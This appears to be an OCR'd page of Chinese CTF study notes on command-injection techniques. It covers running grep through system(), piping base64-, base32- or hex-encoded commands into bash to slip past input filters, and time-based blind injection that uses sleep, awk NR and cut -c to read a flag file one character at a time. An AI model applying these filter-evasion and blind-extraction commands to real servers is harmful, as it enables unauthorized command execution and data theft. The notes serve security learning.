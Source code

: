 - `grep`       #在文本中查找特定字符串

	`system(grep { fl*)`

	从fl*中查找`{`



# 编码绕过

`命令编码后的字符串`    >>    `目标服务器`    >>    `执行命令`

​								绕过过滤				解码读取命令	

`echo Y2F0IGRlbW8yLmM= | base64 -d |bash`

也可以使用``包裹echo Y2F0IGRlbW8yLmM= | base64 -d #执行命令

或者用`$()`包裹来作为命令执行

以上可以用base64或base32

**hex编码:**

`echo "63 61 74 20 66 6c 61 67 2e 70 68 70" | xxd -r -p | bash`

**shellcode编码:**(适用于对方服务器没装xxd)

16进制的机器码

`printf "\x63\x61\x74"`

**注意:**echo可能无法正常执行



# 无回显时间盲注

页面无法shell反弹或者无法回显,或者没有写入权限,课长舒命令盲注

根据返回的时间来进行判断

相关命令:

- **sleep**

	`sleep 5`     #5秒后返回结果

- **awk NR**

	awk逐行获取数据

	`cat flag | awk NR==1` 

- **cut -c**

	`cat flag | awk NR==1 | cut -c 1`    #查看第一个字符

- **if语句**

	判断命令是否执行

	`if [ 2 > 1 ];then echo "right";fi`
